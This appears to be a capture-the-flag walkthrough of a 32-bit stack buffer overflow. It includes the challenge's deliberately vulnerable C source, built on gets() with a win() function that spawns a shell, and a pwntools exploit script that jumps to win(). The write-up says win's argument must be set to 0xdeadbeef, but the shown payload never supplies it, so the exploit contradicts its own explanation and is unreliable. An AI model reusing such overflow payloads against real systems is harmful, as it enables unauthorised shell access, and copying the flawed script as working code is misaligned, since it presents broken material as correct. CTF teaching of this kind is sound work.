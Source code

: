 ## Intro to PWN 2

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 32 bit binary.  NX is enabled but PIE is not.  Once again we can put static addresses into our exploit.  We have source code.  Lets view it.

#### main.c
```C
#include <stdlib.h> 
#include <stdio.h> 

void win(unsigned int x){ 
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
} 

void vuln(){
    char buf[24]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 3: Args too?\n"); 
    vuln(); 
    return 0; 
} 
```

Once again we need to jump to the win() function to get a shell.  However we need to set the x argument to "0xdeadbeef".  It's important to note that for i386 executable the arguments are passed in on the stack.  If we have a buffer overflow we can overwrite arguments passed to win. Here is what the stack looks like for vuln.

![stack_frame](./screenshots/stack_frame.png)

We need to skip 67 bytes then append the address of win() in little endian.  Use objdump to get the address of win().

![jump_address](./screenshots/jump_address.png)

Lets write our exploit.

#### exploit.py
```python
from pwn import *
import sys

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 22209)

payload =  b""
payload += b"A"*0x43
payload += p32(binary.sym.win)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.

![exploit](./screenshots/exploit.png)

Complete!